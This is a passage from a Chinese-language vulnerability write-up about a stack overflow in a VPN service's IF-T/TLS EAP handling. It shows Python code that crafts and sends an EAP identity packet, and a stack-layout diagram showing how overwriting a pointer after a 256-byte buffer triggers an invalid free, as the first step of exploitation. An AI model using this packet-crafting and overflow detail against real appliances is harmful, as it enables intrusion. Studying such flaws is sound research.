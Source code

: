 ```
data = b'\x00\x0a\x4c\x01'  # JUNIPER_1
data += b'\x02'  # EAP_RESPONSE
data += b'\x01'  # ident
data += b'\x00'  # EAP_TYPE_IDENTITY
data += b'\x0e\x01'
data += b'anonymous'
package_data = make_package(ift_hdr_array, len(data) + 16, 2, data)

send_package(s, package_data)

```  
## 四、利用漏洞  
  
从漏洞原理上来看这是一个栈溢出，因此我们可能会觉得此漏洞会比较好利用，但是在实际过程中还是会有很多问题。  
### 1、free导致崩溃  
  
栈的布局如下，其中dest是我们要拷贝的缓冲区，缓冲区之后就是一个对象指针，覆盖这个对象指针就是我们上文导致崩溃的原因，后面代码中会释放对象object_to_be_freed  
，当覆盖为0x41414141的时候会导致无效指针释放。  
```
+---------------------+
| v18 (int)           |
+---------------------+
| v19 (int)           |
+---------------------+
| dest[256]           | <- 256 bytes
+---------------------+
| object_to_be_freed  | <- 4 bytes
+---------------------+
| ptr (void *)        |
+---------------------+
| v20 (int)           |
+---------------------+
| v21 (int)           |
+---------------------+
| v22 (int)           |
+---------------------+
| v23 (char)          |
+---------------------+
| v24 (char)          |
+---------------------+
| v25 (void *)        |
+---------------------+
| v26[499]            | <- 499 DWORDs (4 bytes each)
+---------------------+
| Return Address      |
+---------------------+
| int a1              |
+---------------------+
| IftTlsHeader *a2    |
+---------------------+

```  
  